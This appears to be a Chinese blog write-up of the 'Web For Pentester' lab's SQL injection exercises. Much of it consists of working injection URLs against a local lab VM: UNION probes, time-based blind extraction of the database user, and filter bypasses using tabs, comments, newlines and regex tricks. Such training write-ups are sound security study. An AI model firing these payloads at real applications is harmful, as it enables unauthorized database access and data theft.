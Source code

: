 ```yaml
---
layout:     post
title:      "Web For Pentester - SQLi Part Tips"
subtitle:   "Training exercises"
date:       2016-10-30
author:     "Urahara"
header-img: "img/cd417941f3ec3445dafb444f43cf32c9.jpg"
header-mask: 0.3
tags:
    - 渗透测试
    - Training exercises
---
```




## Example 1

字符类型的注入，无过滤

http://192.168.91.139/sqli/example1.php?name=root 

http://192.168.91.139/sqli/example1.php?name=root' and 1=1%23

http://192.168.91.139/sqli/example1.php?name=root' and 1=2%23

http://192.168.91.139/sqli/example1.php?name=root' union select 1,2,3,4,5%23

 

## Example 2

与example1差不多，过滤了空格，语句中存现空格就会报错

mysql注入绕过空格过滤的方法：

1、水平制表(HT) url编码：%09

2、注释绕过空格   /*注释*/

3、括号绕过空格的方法，在time based盲注中

        index.php?id=(sleep(ascii(mid(user()from(2)for(1)))=109)) 

特点：1) 既没有用到逗号、大小于符号 2) 也没有使用空格 却可以完成数据的猜解工作！

 

http://192.168.91.139/sqli/example2.php?name=root'%09and%091=1%23

http://192.168.91.139/sqli/example2.php?name=root'%09and%091=2%23

http://192.168.91.139/sqli/example2.php?name=root'/**/union/**/select/**/1,2,3,4,5%23

 

## Example 3

在example的基础上，\s匹配任何空白字符,包括空格、制表符、换页符等，全部过滤掉

可以使用example2中 /*注释*/ 绕过过滤

http://192.168.91.139/sqli/example3.php?name=root'/**/union/**/select/**/1,2,3,4,5%23

 

## Example 4

数值型的注入，过滤了单引号等，对数值型无效

http://192.168.91.139/sqli/example4.php?id=3 union select 1,2,3,4,5

 

## Example 5

与前面类似，以一个数字开头的，后面可添加构造的sql语句进行攻击测试

http://192.168.91.139/sqli/example5.php?id=2 and 1=1--

http://192.168.91.139/sqli/example5.php?id=2 and 1=2--

 

## Example 6

正则表达式值确保了参数id是以一个数字结尾的.他不能确保id参数的开头是合法的.

你可以变通一下前面说到的检测方法.你只需要在你的payload后面加上数字.比如你可以这样:1 or 1=1 # 123. 

http://192.168.91.139/sqli/example6.php?id=2 union select 1,2,3,4,5 %23 123

 

 

## Example 7

解法一：

换行 \n的url编码是%0a

 这边纠结了好久，最终使用了-- %23 才能注释掉后面语句

http://192.168.91.139/sqli/example7.php?id=2 and if(ascii(substring(user(),1,1))=112,sleep(1),0)--%23%0a123

 

解法二：

http://192.168.91.139/sqli/example7.php?id=' and 1=1 %0a1%0a' union select version(),2,3,4,5 %23

## Example 8

order by `name`   报错注入出不来，用了时间盲注一个一个猜解

http://192.168.91.139/sqli/example8.php
?order=name`  xor if(ascii(substring(user(),1,1))=111,sleep(5),0)%23

 

## Example 9

 与 example8类似，可以通过时间盲注进行逐一猜解

http://192.168.91.139/sqli/example9.php?order=1 xor if(ascii(substring(user(),1,1))=112,sleep(5),0)%23